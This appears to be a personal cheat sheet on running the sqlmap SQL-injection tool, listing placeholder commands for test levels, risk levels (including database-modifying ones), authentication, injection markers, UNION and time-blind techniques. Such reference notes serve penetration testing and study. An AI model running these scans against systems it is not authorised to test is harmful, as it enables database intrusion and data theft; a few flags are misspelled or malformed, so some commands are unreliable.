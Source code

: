 # Injection

Search Tag(s): #sqlmap #sql-injection #webapp

## Payload Injection Test Levels

### Levels

- Level 1 (by default) targets only basic GET and POST request parameters. Even if the flag is not specified it'll always use `--level=1` payloads to inject the URL. The amount of HTTP requests will always be less than 100.

```
$ sqlmap -u "<URL>" --level=1 -p <parameter>
```

- Level 2 will target HTTP cookie header. The HTTP requests will be somewhere between 100 - 200.

```
$ sqlmap -u "<URL>" --level=2 -p <parameter>

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --param-exclude="COOKIE"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --skip="cookies"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." -p <parameter>
```

- Level 3 will will two additional HTTP headers which are **User-Agent** and **Referer** with additional payloads to inject. The **inline query** technique is reached to this level. The HTTP requests will be somewhere between 200 - 500.

`$ sqlmap -u "<URL>" --level=3`

- Level 4 contains more payloads for certain type of techniques and no additional HTTP header type to inject. The HTTP requests will be somewhere between 500 - 1000.

`$ sqlmap -u "<URL>" --level=4`

- Level 5 will inject **HTTP Host** with additional payloads contains on numerous techniques. The amount of HTTP requests will be more than 1000.

`$ sqlmap -u "<URL>" --level=5`

### Risks

- Risks 1 (by default) contains payloads that are deemed safe to test on all levels. Even if the flag is not specified it'll always use `--risks=1` payloads to inject the URL. 

`$ sqlmap -u "<URL>" --risks=1`

- Risk 2 contains payloads that might cause denial of service (DoS) which is usually for smaller sites. However, sqlmap has mechanisms to attempt and prevent it from happening.

`$ sqlmap -u "<URL>" --risks=2`

- From this level and beyond has a huge risk by modifying the database to perform certain tasks.

`$ sqlmap -u "<URL>" --risks=3`

## Authentication Methods

`$ sqlmap -u "<URL>" --cookie="<key_1>=<value_1>;<key_n>=<value_n>"`

`$ sqlmap -u "<URL>" --headers="Authorization=<value>"`

`$ sqlmap -u "<URL>" --auth-type=<Basic | Digest | Bearer | ...> --auth-cred=<username>:<password>`

`$ sqlmap -u "<URL>" --auth-file=/path/to/file.pem`

### DBMS Authentication

`$ sqlmap -u -d <scheme>://<username>:<password>@<IP>:<PORT>/<database_name> --dbms-cred=<username>:<password>`

## Injection Markers

- Specify the parameter

`$ sqlmap -u "<URL>" -p <parameter>"`

`$ sqlmap -u "<URL>" --headers="<headers>"`

```
%INJECT_HERE%
*
```

`$ sqlmap -u "<URL>" --prefix="'" --suffix="--"`

## SQL Injection Techniques

### UNION-Based Query 

`$ sqlmap -u "<URL>" --technique=U --union-cols=<number_of_columns>`

`$ sqlmap -u "<URL>" --technique=U --union-char="A1B2"`

`$ sqlmap -u "<URL>" --technique=U --union-from="<table_name>"`

### Time-Blind Query

- This is also used for blind SQL Injection method

`$ sqlmap -u "<URL>" --technique=T --time-sec=<seconds>`

## Filter Payloads

`$ sqlmap -u "<URL>" --test-filter="<payload_title>"`

`$ sqlmap -u "<URL>" --test-skip="BENCHMARK"`